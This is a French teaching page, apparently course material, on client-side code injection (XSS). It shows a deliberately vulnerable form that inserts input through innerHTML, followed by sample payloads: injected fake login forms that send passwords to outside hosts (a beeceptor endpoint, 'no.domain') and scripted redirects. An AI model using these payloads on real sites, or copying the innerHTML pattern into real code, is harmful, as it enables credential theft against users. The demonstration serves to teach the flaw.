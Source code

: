 

### L'injection de code... côté client !

<script>
		var fonction = function () {
			myUl = document.getElementById("myUl");
			myTxt = document.getElementById("scriptEvil").value;
			var node = document.createElement("LI");
			node.innerHTML = myTxt;
			myUl.appendChild(node);
		}
</script>

>#### École municipale de Kelkepare
>**Inscription d'un nouvel élève**
>
>Prénom : <input id="scriptEvil" type="text" /> <button onClick="fonction()">Inscrire l'élève</button>
>
><ul id="myUl"></ul>


Et si j'écrit dans le formulaire :
```
<form action="https://securite-applicative.free.beeceptor.com" >Entrez votre mot de passe : <input type="password" name="password" /><button type="submit" formtarget="_blank">Me connecter</button></form>
```

Que se passe-t-il ici ? : https://beeceptor.com/console/securite-applicative

Déclinable à souhait...
```
<button onclick="window.location='https://securite-applicative.free.beeceptor.com'" >Continuer</button>
```

On peut ainsi forcer un utilisateur a provoquer ces modifications du DOM ou tout autre action
- En le redirigeant sur la page avec des paramètres de requete trafiqués
- En stockant en base un code qui va être réaffiché

On peut ainsi rajouter ce genre de code sur la page de l'utilisateur
```html
<script>document.location="https://no.domain"</script>
```
```html
<script>
document.getElementsByTagName("body")[0].innerHTML("
<form action='https://no.domain' >
<br>Connectez vous !<br>
<input type='text' name='email'>
<input type='password' name='mot de passe'>
<input type='submit' value='Connexion'>
</form>
")
</script>
```

